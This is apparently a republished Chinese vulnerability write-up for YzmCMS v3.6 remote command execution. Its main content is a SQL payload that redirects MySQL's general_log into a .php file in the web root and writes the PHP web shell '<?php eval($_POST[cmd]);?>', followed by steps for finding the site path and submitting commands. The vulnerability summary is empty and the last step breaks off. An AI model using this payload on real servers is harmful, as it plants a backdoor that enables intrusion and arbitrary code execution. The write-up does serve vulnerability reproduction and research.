


# YzmCMS v3.6 远程命令执行

> 原文：[http://book.iwonder.run/0day/YzmCMS/YzmCMS v3.6 远程命令执行.html](http://book.iwonder.run/0day/YzmCMS/YzmCMS v3.6 远程命令执行.html)

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启 general log 模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入 shell 
```

##### 1、执行 sql 语句，查看 mysql 日志配置情况


#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用 load_file()函数来测试，确认站点目录位置。或者通过 phpinfo()等信息收集获取站点目录。



#### 3、分别执行下列 sql 语句，将脚本代码写入文件：

```
set global general_log = on;         

set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>'; 
```



#### 4、提交参数，执行脚本代码：


